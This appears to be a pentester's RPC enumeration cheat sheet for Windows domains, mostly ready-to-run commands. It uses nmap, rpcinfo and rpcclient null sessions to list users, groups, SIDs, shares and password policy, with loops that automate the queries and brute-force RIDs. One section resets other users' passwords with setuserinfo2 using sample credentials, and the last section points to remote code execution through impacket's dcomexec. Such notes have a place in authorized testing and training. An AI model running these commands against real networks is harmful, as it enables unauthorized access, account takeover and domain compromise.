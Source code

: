 # RPC Checklist

````
nmap -sV -p 111 --script=rpcinfo $ip
nmap -sV -p 111 --script=rpc* $ip
rpcdump.py $ip -p 135
rpcclient -U '' -N $ip
rpcclient -U "" $ip // when asked enter empty password
rpcclient $ip -N -U "" \\$ip
rpcclient $>srvinfo
rpcclient $>enumdomusers
rpcclient $>querydominfo
rpcclient $>getdompwinfo   //password policy
rpcclient $>netshareenum
nmblookup -A 192.168.1.1
nbtscan IP
````
#List the ports using RPC
rpcinfo $ip 
> Output would look something like below
    100024    1    udp       0.0.0.0.150.11         status     29
    100024    1    tcp       0.0.0.0.219.244        status     29
    100024    1    udp6      ::.153.127             status     29
    100024    1    tcp6      ::.172.42              status     29

#list accessible RPC service endpoints
rpcinfo -p $ip 

Domain Enumeration with RPcclient
#Enum using Null Session
rpcclient -U "" $ip 

#Login as a user
rpcclient -U USERNAME //$ip 

#Find Users in the domain 
rpcclient -Uuser_Name%PASSWORD -c enumdomusers $ip 

#Find Domian Info
rpcclient -Uuser_Name%PASSWORD -c querydominfo  $ip 

#Find Groups and their Alias
rpcclient -Uuser_Name%PASSWORD -c "enumalsgroups builtin" $ip 

#Find more info using Alias and note SIDs
rpcclient -Uuser_Name%PASSWORD -c "queryaliasmem builtin 0x244" $ip 

#Find more info using SIDs
rpcclient $> lookupsids S-1-5-21-586154515854-343543654-8743952433-1105 

#Reset other Users Password
rpcclient -U user1 //$ip 
setuserinfo2 USER2 23 'PASSWORD'

Enum using RPCClient

rpcclient -U DOMAIN\\Username $ip    #Enter pass 

enumdomusers     #Enumerate Domain Users 

enumprivs        #Enum Privileges

enumprinters    #Enum Printers

srvinfo         #Server info

enumalsgroups domain    #List the domain groups 

enumalsgroups builtin    #list builtin groups

queryuser 500        #find Admin users

lookupnames username/groupname    #Find the SID of a user/group

Dont want to manually check all the commands ? maybe below script will help :P 

#save the below commands as a text file and run the below command
querydominfo
enumdomgroups
enumdomusers
querygroupmem 0x201
enumprivs        
enumprinters    
srvinfo
enumdomgroups
querygroup 0x200
queryuser Administrator
getdompwinfo
getusrdompwinfo 0x1f4
lsaenumsid
lookupnames Administrator
enumalsgroups domain
enumalsgroups builtin 
queryuser 500  
lsaquery
dsroledominfo
netshareenum
netshareenumall
netsharegetinfo Confidential
querydispinfo
lsalookupprivvalue SeImpersonatePrivielge

#Run the below command
for command in $(cat rpc-enum.txt); do rpcclient -U "%" -c $command $ip; done



OVERWRITE SOMEONE'S PASSWORD!!!
```bash
rpcclient -N -U "hazel.green%haze1988" $ip
setuserinfo2 MOLLY.SMITH 23 'Password123!'
setuserinfo christopher.lewis 23 'Admin!23'
```

Automate a bit.

```bash
for command in $(cat /opt/windows/rpc-enum.txt); do rpcclient 192.168.165.40 -U "hazel.green" --password="haze1988" -c "$command"; done
for name in $(cat ../users.txt.bak); do rpcclient 192.168.165.40 -U "hazel.green" --password="haze1988" -c "queryuser $name"; done
```

```bash
for command in $(cat rpc-enum.txt); do rpcclient $ip -U "$user%$pass" -c $command; done
for command in $(cat rpc-enum.txt); do rpcclient $ip -U "%" -c $command; done
for name in $(cat ../users.txt.bak); do rpcclient $ip -U "%" -c "queryuser $name"; done
```

#### Enumerate Users

```bash
    for i in $(seq 500 1100); do
        rpcclient -N -U "" $ip -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";
    done
```

#### RCE

It is possible to execute remote code on a machine, if the credentials of a valid user are available using dcomexec.py from impacket framework.

Remember to try with the different objects available
    - ShellWindows
    - ShellBrowserWindow
    - MMC20